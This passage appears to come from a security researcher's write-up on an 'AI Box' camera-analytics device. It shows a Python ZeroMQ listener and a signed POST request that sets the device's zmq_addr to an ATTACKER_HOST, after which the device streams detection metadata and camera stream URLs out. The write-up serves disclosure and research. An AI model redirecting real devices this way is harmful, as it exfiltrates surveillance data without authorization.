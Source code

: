 ```python
    return jsonify(data)
```

At `[7]` our POST request body was parsed as JSON. The JSON should contain two members, `owner` and `zmq_addr`. I understood `owner` but `zmq_addr`? After asking Google, I was pretty sure to define a **ZeroMQ** host URL with this. According to [Wikipedia](https://en.wikipedia.org/wiki/ZeroMQ):

> ZeroMQ (...) is an asynchronous messaging library, aimed at use in distributed or concurrent applications. It provides a message queue, but unlike message-oriented middleware, a ZeroMQ system can run without a dedicated message broker; the zero in the name is for zero broker. The library's API is designed to resemble Berkeley sockets.

I had to implement a "ZeroMQ" participant component then, right?

```python
#!/usr/bin/env python3

import time
import zmq

context = zmq.Context()
socket = context.socket(zmq.PULL) # PULL, PUB, REP
socket.bind("tcp://*:1337")
print("[+] ZMQ server started")

while True:
    #  Wait for next request from client
    message = socket.recv()
    print("Received request: %s" % message)
    print("---------------------------------------------")

    #  Do some 'work'
```

Now sending a POST request as shown next, should configure our attacker host as ZeroMQ participant:

```
POST /itx/ai/owner/ HTTP/1.1
Host: HOST:8443
X-Auth-Signature: [HMAC_VALUE]
Date: Mon, 19 Jun 2023 11:32:20 GMT
Connection: close
Content-Type: application/json
Content-Length: [length]

{"owner":"Tom Cruise Ltd", "zmq_addr":"tcp://[ATTACKER_HOST:1337]"}
```

And indeed, almost immediately after the POST request was sent, my ZeroMQ Python server began to receive data from the AI Box. I cannot provide the screenshots due to confidentiality (yes, I also altered all the other request/response contents) but incoming messages looked something like this:

```txt
Received request: b'{"source":"rtsp://10.0.0.1:555/Streaming/Channels/1?transportmode=unicast", "topic":"Detector/ObjectDetected","metadata":{"annotations":[{"class":"person","score":0.430000000123123123,"track_id":23234}]}}
```

